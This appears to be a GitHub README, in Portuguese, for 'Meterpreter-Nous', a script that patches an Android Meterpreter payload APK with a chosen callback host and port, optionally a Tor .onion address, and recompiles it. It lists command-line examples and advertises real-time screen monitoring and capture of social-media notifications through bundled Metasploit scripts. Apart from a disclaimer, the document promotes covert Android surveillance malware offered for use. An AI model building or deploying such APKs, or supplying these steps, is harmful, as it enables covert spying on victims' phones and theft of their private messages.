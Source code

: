 
---

# Meterpreter-Nous

![Logo](https://raw.githubusercontent.com/mikelkarma/Meterpreter-Nous/refs/heads/main/screenshot.png)


*"Hack the system. Reconfigure. Adapt. Overcome."*

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.

---

## [ SYSTEM CORE ]

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.
- Suporte completo a hosts `.onion` para conexões sigilosas via **Tor**.
- Compilação automatizada do APK modificado.

---

## [ SYSTEM REQUIREMENTS ]

Certifique-se de possuir as ferramentas essenciais:

- [Python 3.x](https://www.python.org/)
- [apktool](https://github.com/iBotPeaches/Apktool)
- [Java](https://www.java.com/)

---

## [ INSTALL & DEPLOY ]

Clone o repositório e navegue até o diretório:

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian
```

## [ EXECUTION MODE ]

Defina o host e a porta diretamente na CLI:

```bash
python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de execução:

**1. Configuração de um host sem Tor:**

```bash
python nous.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configuração de um host .onion com Tor:**

```bash
python nous.py --host exemplo.onion --porta 8080 --tor true
```

---

## [ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

- Monitoramento em tempo real da tela do Android.
- Captura de notificações de redes sociais e outros aplicativos.

Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em `msf-scripts`. Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

## [ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.
- O uso deste código é de total responsabilidade do usuário.
- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.

Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.

---


